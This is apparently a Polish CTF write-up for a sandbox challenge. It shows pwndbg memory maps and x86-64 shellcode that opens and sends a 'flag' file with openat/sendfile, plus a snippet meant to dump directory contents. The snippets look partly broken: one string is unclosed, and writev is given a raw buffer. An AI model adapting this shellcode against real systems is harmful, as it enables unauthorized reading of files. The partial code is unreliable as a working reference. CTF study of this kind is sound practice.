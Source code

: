 Jednak po sprawdzeniu vmmap okazało się, że dostępne jest dużo więcej miejsca – aż 0x1000 bajtów. To wystarczająco dużo na zawartość całego katalogu, nawet z metadanymi. Nie sądzę, żeby w katalogu było tysiąc plików.
{: .text-justify}
```bash
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
          0x400000           0x401000 r--p     1000      0 /ctf/flagyard/sbx
          0x401000           0x402000 r-xp     1000   1000 /ctf/flagyard/sbx
          0x402000           0x403000 r--p     1000   2000 /ctf/flagyard/sbx
          0x403000           0x404000 r--p     1000   2000 /ctf/flagyard/sbx
          0x404000           0x405000 rw-p     1000   3000 /ctf/flagyard/sbx
    0x7ffff7da8000     0x7ffff7dab000 rw-p     3000      0 [anon_7ffff7da8]
```
## odczytanie pliku flag lokalnie
Ten shellcode działa lokalnie, jeżeli znamy nazwę pliku i jest ona `flag`.
{: .text-justify}
```asm
sh = """
mov rax, 0x67616c66 ;// flag
push rax
mov rdi, -100
mov rsi, rsp
xor edx, edx
xor r10, r10
push SYS_openat ;// SYS_openat
pop rax
syscall

mov rdi, 1
mov rsi, rax
push 0
mov rdx, rsp
mov r10, 0x100
push SYS_sendfile ;// SYS_sendfile
pop rax
syscall
```
Mała dygresja, komentarze w stylu `;` nie wystarczą, jeżeli kompiluemy shellcode w pythonie. Należy dodać jeszcze do tego `//`
{: .text-justify}

## odczytanie zawartosci katalogu
Poniżej znajduje się shellcode, który odczytuje zawartość katalogu i zapisuje ją do pamięci. W naszym przypadku dane trafiają do sekcji `.bss`.
{: .text-justify}
```asm
mov rdi, 1
mov rsi, 0x0000000000404248            ; // Adres danych z `getdents64`
mov rdx, 200                 ; // Liczba bajtów odczytanych z katalogu
mov rax, 20                 ; // SYS_writev
syscall
```
# Dalsza część problemu
Odczytanie zawartości katalogu do pamięci udało się, ale jak wyświetlić ją na ekranie? ChatGPT zaproponował kilka zaawansowanych rozwiązań, takich jak tworzenie potoków, przekierowanie za pomocą dup2, zamiana potoku, a następnie użycie syscall read. Jednak zdecydowałem się zrezygnować z tego podejścia.